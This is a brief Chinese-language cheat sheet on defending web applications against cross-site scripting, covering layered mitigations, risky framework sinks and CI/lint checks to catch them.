输出编码（根本）→ 安全 API（textContent）→ DOMPurify → CSP nonce → HttpOnly / Trusted Types

【危害不止弹窗】
读 token / 键盘记录 / 冒用身份 / 钓鱼 / 蠕虫 / 挖矿
关键：XSS 能读页面里的 CSRF Token → 能绕过 CSRF 防护

【框架不保险】
Vue: v-html｜React: dangerouslySetInnerHTML｜href 绑定｜服务端模板 <%- %> {{{ }}}

【工程化】
ESLint no-unsanitized 禁危险 API
grep innerHTML|v-html|eval 进 CI
CSP report-to 收集线上违规
SVG 上传 → 独立域 + Content-Disposition: attachment
```
